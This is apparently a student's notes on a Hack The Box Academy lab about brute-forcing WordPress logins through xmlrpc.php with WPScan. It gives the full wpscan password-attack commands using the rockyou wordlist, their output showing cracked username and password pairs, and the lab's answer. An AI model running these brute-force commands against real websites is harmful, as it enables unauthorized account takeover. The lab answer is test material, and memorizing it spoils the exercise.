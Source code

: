 ```yaml
---
sticker: emoji//1f43c
---
```

## WordPress User Bruteforce

WPScan can be used to brute force usernames and passwords. The scan report returned three users registered on the website: `admin`, `roger`, and `david`. The tool uses two kinds of login brute force attacks, `xmlrpc` and `wp-login`. The `wp-login` method will attempt to brute force the normal WordPress login page, while the `xmlrpc` method uses the WordPress API to make login attempts through `/xmlrpc.php`. The `xmlrpc` method is preferred as it is faster.

#### WPScan - XMLRPC


```shell-session
smoothment@htb[/htb]$ wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com

[+] URL: http://blog.inlanefreight.com/                                                  
[+] Started: Thu Apr  9 13:37:36 2020                                                                                                                                               
[+] Performing password attack on Xmlrpc against 3 user/s

[SUCCESS] - admin / sunshine1
Trying david / Spring2016 Time: 00:00:01 <============> (474 / 474) 100.00% Time: 00:00:01

[i] Valid Combinations Found:
 | Username: admin, Password: sunshine1
```

# Question
---

![](Pasted%20image%2020250220134229.png)

Let's use this WPScan command:

```
wpscan --password-attack xmlrpc -t 20 -U roger -P /usr/share/wordlists/rockyou.txt --url http://IP:PORT
```

We get this:

```
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - roger / lizard                                                                             
Trying roger / castro Time: 00:00:38 <                        > (1900 / 14346292)  0.01%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: roger, Password: lizard

```


Answer is:

```
lizard
```
